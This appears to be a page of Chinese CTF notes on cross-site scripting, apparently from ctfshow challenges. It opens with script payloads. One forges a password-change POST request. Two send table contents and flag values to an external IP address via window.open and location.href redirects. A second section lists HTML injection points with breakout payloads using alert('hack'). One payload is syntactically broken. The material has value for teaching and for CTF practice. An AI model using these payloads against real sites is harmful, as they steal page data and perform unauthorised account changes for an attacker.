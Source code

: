 ```javascript
<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=1234567');</script>

<script>$.ajax({url:"api/amount.php",method:"POST",data:{'u':'1','a':}})</script>
                
<script>window.open('http://43.154.113.116:9033/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctfshow{')>-1){window.location.href='http://43.154.113.116:9033/'+value.innerHTML;}});</script>
```









## XSS可以插入的地方

```html
 *用户输入作为script标签内容
 *用户输入作为HTML注释内容
 *用户输入作为HTML标签的属性名
 *用户输入作为HTML标签的属性值
 *用户输入作为HTML标签的名字
 *直接插入到CSS里
 
 **通过上述可插入的位置可知：千万不要引入任何不可信的第三方JavaScript到页面里！
----------------------------------
#用户输入作为HTML注释内容,导致攻击者可以进行闭合绕过
 <!-- 用户输入 -->
 <!-- --><script>alert('hack')</script><!-- -->
 
 #用户输入作为标签属性名,导致攻击者可以进行闭合绕过
 <div 用户输入="xx">  </div>
 <div ></div><script>alert('hack')</script><div a="xx"> </div>
 
 #用户输入作为标签属性值,导致攻击者可以进行闭合绕过
 <div id="用户输入"></div>
 <div id=""></div><script>alert('hack')</script><div a="x"></div>
 
 #用户输入作为标签名,导致攻击者可以进行闭合绕过
 <用户输入  id="xx" />
 <><script>alert('hack')</script><b id="xx" />
 
 #用户输入作为CSS内容,导致攻击者可以进行闭合绕过
 <style>用户输入<style>
 <style> </style><script>alert('hack')</script><style> </style>
----------------------------------

```
